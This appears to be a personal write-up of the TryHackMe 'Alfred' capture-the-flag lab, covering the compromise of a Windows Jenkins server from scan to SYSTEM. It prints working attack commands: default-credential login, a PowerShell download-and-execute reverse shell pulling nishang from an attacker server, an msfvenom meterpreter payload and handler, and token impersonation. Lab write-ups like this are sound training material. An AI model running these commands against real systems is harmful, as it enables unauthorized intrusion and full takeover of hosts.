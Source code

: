 ```yaml
---
title: Alfred-writeup-THM
date: 2023-12-26 
categories: [room, easy]
tags: [windows, privesc, jenkins]     # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/alfred">Alfred</a>"

### Initial Access

Exploiting Jenkins,

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

First of all I am going to scan the machine, for this I only know that the machine does not respond to ping, and I only need TCP ports,

```bash
nmap -sT -Pn 10.10.207.2 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-26 10:41 EST
Nmap scan report for 10.10.207.2
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

This is the output.

- Port 80 is hosting a site, which tells me important informations:
    
    ![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png)
    

I got a possible username and password: Bruce Wayne

And an email: alfred@wayneenterprises.com

But that’s it for now.

Port 8080 is where Jenkins is hosted.

Upon entering the page, there is a login portal, after trying “Bruce Wayne” and several other password, I am reminded that this is in the description of the room:

“common misconfiguration on a widely used automation server”

So i tried admin:admin, which worked.

Now I got control over Jenkins!

The first thing to do is searching for some type of tool that I can use to get a reverse shell:

https://github.com/samratashok/nishang

First I tried with the script console.

But it didn’t work because it can’t download the script like that, so I found a configure page under the project.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled%201.png)

Because it has RDP open we can assume that the machine is running Windows.

I am going to use this script: “https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1”

Which I downloaded in my machine, after that I started a python server: (this will be started in the same directory as the script, that’s because jenkins will download the script thanks to the python server)

```bash
python3 -m http.server 8000
```

Then I start a listener: 

```bash
nc -lvnp 4444
```

And then used this script in the script console:

```bash
*powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-python-server-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.20.116 -Port 4444*
```

After that I build the config we got a shell!

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.207.2] 49236
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

We can see that we are the user alfred\bruce

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Now I need the user flag, which I found in the user Desktop:

PS C:\Users\bruce\Desktop> ls

```bash
PS C:\Users\bruce\Desktop> ls

Directory: C:\\Users\\bruce\\Desktop

Mode                LastWriteTime     Length Name

a--- 10/25/2019 11:22 PM 32 user.txt
```

Now, I am going to switch this scuffed revshell in an imrpoved version, we can do this using the meterpreter shell.

## Upgrading the shell

Leave your previous connection **OPEN**.

We create our payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.20.116 LPORT=4555 -f exe -o revshellps1.exe`

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.20.116:8000/revshellps1.exe','revshellps1.exe')"`

Now that we have done that, we need to use Metasploit:

```bash
**use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST Your_Machine_IP
LHOST => 10.18.20.116

msf6 exploit(multi/handler) > set LPORT Your_Port(Same as the one you used for creating the payload)
LPORT => 4555
msf6 exploit(multi/handler) > run
```

Once we run, we nee to go in our previous connection(The one we created with nc) and start the process:

```bash
Start-Process "shell-name.exe”
```

You will find the shell under: `C:\Program Files (x86)\Jenkins\workspace\project`

Now that we have a stable shell, we can try to gain major privileges!

## Privilege Escalation

First thing we do is:

`whoami /priv`

With this we can see all the Enabled privileges

(SeDebugPrivilege, SeImpersonatePrivilege) Those are the one that we find interessing.

Then we check for the available tokens:

`impersonate_token`

And we can see the BUILTIN\Administrators token available

So we try to impersonate the token:

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user **NT AUTHORITY\SYSTEM**
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user.

To go around that we can migrate to a process with the correct privileges.

First we use `ps` to view the processes, then we grab the PID of services.exe, which we pick because is it normally a ssafe option.

and we migrate to that PID:

```bash
migrate PID-OF-PROCESS
```

Now we should have full SYSTEM privileges!